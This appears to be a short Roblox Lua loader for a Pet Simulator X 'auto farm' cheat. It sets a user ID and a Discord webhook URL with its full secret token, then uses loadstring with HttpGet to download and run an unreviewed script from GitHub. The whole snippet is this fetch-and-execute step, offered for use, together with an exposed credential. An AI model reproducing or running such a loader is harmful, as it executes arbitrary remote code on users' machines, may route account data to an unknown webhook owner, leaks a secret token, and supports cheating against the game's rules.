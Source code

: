 _G.UserID = 1421711429
_G.WebHook = "https://discord.com/api/webhooks/1079004063686983750/wwqmZYPXojwTcMCt_kUXHl03QNkljYwYSBzXe1znpP0s3fwRgS1-VyKefiV6BNXoYQHS"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
